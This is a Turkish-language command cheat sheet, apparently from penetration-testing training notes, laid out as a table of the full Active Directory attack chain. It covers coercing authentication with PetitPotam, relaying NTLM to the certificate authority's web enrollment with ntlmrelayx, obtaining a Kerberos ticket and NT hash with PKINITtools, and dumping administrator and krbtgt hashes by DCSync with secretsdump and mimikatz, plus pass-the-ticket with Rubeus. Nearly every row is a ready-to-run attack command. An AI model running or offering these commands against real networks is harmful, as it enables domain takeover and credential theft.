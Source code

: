 | Komut | Açıklama | Kullanıcı | Hedef | Notlar |
| --- | --- | --- | --- | --- |
| `git clone https://github.com/topotam/PetitPotam.git` | PetitPotam exploit kodunu indirim | Linux Saldırı Makinası | - | Git kullanılarak yapılır. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | PetitPotam exploit kodunu çalıştırın | Linux Saldırı Makinası | Hedef (Domain Controller) | Kendi IP adresinizi belirtin. |
| `sudo ntlmrelayx.py -debug -smb2support --target http://target-domain.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | NTLM relay oluşturmak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Hedef (CA Sunucu) | Sunucu sertifika kayıt URL'sini belirtin. |
| `python3 /opt/PKINITtools/gettgtpkinit.py target-domain.LOCAL/TARGET-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache` | TGT bileti almak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Domain Controller | Base64 sertifika ve ccache dosyası oluşturulur. |
| `klist` | Ccache dosyasının içeriğini görüntüle | Linux Kullanıcı | - | Kerberos bilet bilgilerini gösterir. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 target-domain/TARGET-DC01$` | NTLM hash değerleri almak | Linux Saldırı Makinası | Domain Controller | TGS istekleri gönderilir ve hash değerleri alınır. |
| `secretsdump.py -just-dc-user target-domain/administrator -k -no-pass "TARGET-DC01$"@TARGET-DC01.target-domain.local` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve TGT bileti kullanılır. |
| `secretsdump.py -just-dc-user target-domain/administrator "TARGET-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve yakalanan hash değeri kullanılır. |
| `.\Rubeus.exe asktgt /user:TARGET-DC01$ /<base64 certificate>=/ptt` | Pass-the-ticket saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Makine hesabı kullanılarak TGT bileti alınır. |
| `mimikatz # lsadump::dcsync /user:target-domain\krbtgt` | DCSync saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Mimikatz kullanılarak DCSync saldırısı yapılır. |
